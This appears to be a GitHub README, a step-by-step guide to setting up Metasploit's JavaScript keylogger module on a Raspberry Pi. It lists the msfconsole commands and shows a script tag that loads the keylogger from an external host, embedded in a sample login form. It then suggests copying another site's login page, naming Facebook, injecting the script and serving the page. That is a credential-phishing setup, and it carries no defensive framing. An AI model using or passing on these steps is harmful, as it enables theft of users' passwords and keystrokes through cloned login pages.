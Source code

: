 # Keylogging with Metasploit & Javascript

### Sources
[https://blog.rapid7.com/2012/02/21/metasploit-javascript-keylogger/](https://blog.rapid7.com/2012/02/21/metasploit-javascript-keylogger/)
[https://vulners.com/metasploit/MSF:AUXILIARY/SERVER/CAPTURE/HTTP_JAVASCRIPT_KEYLOGGER](https://vulners.com/metasploit/MSF:AUXILIARY/SERVER/CAPTURE/HTTP_JAVASCRIPT_KEYLOGGER)

### requirement
- raspberrypi 
- kali 
- metasploit

### Description
- ssh on remote pi 
	
```
ssh [USER]@[HOSTNAME] -p [PORT]
```
- run metasploit

```
msfconsole -q
use auxiliary/server/capture/http_javascript_keylogger
set demo true
set SRVPORT [SRVPORT]
set URIPATH keylog
options
run
```

- Open html demo page client side

```
http://[IP]:[SRVPORT]/keylog/demo
http://[HOSTNAME]:[SRVPORT]/keylog/demo
```
- (optional) add this line in custom html

```
<script type="text/javascript" src="http://pipeter.asuscomm.com:3000/keylog/test.js"></script> 
```
example:

```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>Document</title>
</head>
<body>
  <form action="/action_page.php">
    username:<br>
    <input type="text" name="username">
    <br>
    password:<br>
    <input type="text" name="password">
    <br><br>
    <input type="submit" value="Submit">
  </form> 
<script type="text/javascript" src="http://pipeter.asuscomm.com:3000/keylog/test.js"></script>
</body>
</html>
```
- (optional) Use others' ui
	- Save page locally (i.e. facebook login page)
	- Add magic tag script (see above)
	- Serve the page or push online i.e `browser-sync start --server`